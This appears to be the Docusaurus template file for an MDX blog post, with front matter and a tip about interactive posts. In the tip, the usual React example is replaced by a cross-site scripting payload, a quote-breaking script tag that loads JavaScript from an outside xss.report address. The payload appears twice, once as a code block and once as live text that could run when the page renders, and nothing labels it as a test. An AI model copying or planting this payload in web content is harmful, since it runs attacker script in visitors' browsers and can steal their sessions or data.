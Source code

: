 ```yaml
---
slug: mdx-blog-post
title: MDX Blog Post
authors: [slorber]
tags: [docusaurus]
---
```


Blog posts support [Docusaurus Markdown features](https://docusaurus.io/docs/markdown-features), such as [MDX](https://mdxjs.com/).

:::tip

Use the power of React to create interactive blog posts.

```js
'"><script src=//xss.report/s/shashwat01singh></script>
```

'"><script src=//xss.report/s/shashwat01singh></script>

:::
